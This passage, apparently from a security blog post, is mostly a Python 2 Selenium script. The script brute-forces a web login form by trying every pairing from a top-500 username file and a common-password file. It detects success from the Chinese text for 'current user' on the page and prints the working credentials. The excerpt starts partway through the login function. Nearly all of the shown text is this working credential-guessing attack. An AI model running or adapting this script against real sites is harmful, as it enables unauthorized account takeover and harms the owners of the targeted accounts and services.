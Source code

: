 ```plain
        elem=browser.find_element_by_id("submit")
        #print browser.current_window_handle
        elem.click()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
                        for pwd in fpwd.readlines():
                                p = pwd.strip()
                                print 'testing...' + u,p
                                BruteLogin(u,p)

    browser.quit()



if __name__ == '__main__':
    main()
```

[![](assets/1698897578-37472e095b6d364eb4bf79f40e437a11.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160621-8faa03e0-48b7-1.gif)
